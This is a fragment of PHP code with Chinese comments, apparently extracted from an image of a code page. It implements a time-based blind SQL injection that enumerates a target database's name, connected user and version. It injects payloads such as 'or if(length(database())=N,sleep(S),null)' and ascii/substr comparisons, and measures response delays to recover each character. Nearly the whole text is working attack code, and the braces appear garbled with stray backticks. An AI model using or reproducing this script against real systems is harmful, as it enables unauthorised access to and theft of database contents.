 ```

/**
 * 获取database信息
 * @return string
 */
function getLocalDBName()
`{`
    return getInfoByType('database');
`}`

/**
 * 获取当前连接用户信息
 * @return string
 */
function getLocalUserName()
`{`
    return getInfoByType('user');
`}`

/**
 * 获取数据库版本信息
 * @return string
 */
function getVersionName()
`{`
    return getInfoByType('version');
`}`

/**
 * 循环提交
 * @param  string $type 类别
 * @return string
 */
function getInfoByType($type)
`{`
    global $sleep,$upNum,$asciiNum;
    $length = 0;
    for ($i = 1; $i &lt; $upNum; $i++) `{`
        $uid      = '9999 or if(length(' . $type . '())=' . $i . ',sleep(' . $sleep . '),null)';
        $httpInfo = sendRequest($uid);
        if ($httpInfo['total_time'] &gt; $sleep) `{`
            $length = $i;
            break;
        `}`
        usleep(300000);
    `}`
    echo "$type Length : $length \n";
    $result = '';
    for ($i = 1; $i &lt;= $length; $i++) `{`
        for ($j = 32; $j &lt; $asciiNum; $j++) `{`
            $uid = '999 or if(ascii(substr(' . $type . '(),' . $i . ',1))=' . $j
            . ',sleep(' . $sleep . '),null)';
            $httpInfo = sendRequest($uid);
            if ($httpInfo['total_time'] &gt; $sleep) `{`
                $result .= chr($j);
                break;
            `}`
            usleep(300000);
        `}`
    `}`
    return $result;
`}`

```